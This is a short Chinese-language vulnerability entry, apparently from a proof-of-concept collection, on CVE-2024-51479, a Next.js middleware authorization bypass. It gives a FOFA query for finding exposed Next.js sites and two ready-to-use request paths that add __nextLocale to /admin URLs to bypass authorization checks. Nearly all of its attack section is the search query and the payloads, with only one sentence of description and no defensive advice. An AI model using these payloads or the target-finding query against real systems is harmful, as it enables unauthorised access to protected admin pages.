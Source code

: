 # Next.js权限绕过(CVE-2024-51479)

Next.js 是一个用于构建全栈 Web 应用程序的 React 框架。在受影响的版本中，如果 Next.js 应用程序正在基于路径名的中间件中执行授权，则可能会绕过应用程序根目录下的页面的此授权，允许未经授权访问Next.js应用程序中的根级页面，这些页面本应受到授权检查的保护

## fofa
```javascript
app="NEXT.JS"
```

## poc
```javascript
/admin?__nextLocale=111
/admin/users?__nextLocale=anything
```

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202501041404258.png)

## 漏洞来源

- https://mp.weixin.qq.com/s/rPBKzvNI9wc79tDr2KC5sA